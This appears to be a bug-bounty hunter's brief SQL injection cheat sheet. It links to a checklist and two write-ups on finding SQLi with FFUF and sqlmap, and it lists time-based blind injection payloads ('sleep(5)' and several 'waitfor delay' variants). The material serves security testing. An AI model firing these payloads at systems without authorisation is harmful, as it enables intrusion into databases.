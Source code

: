 ## 1. SQL checklist

https://www.notion.so/SQL-INJECTION-e89cf8a972d24a239821b4449f34f4e0


## 2. 
https://sapt.medium.com/sqli-on-a-bugcrowd-private-program-17858b57ec61


```
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
```

## SQL Injection with FFUF and Sqlmap
https://0xmahmoudjo0.medium.com/how-i-found-multiple-sql-injection-with-ffuf-and-sqlmap-in-a-few-minutes-9c3bb3780e8f



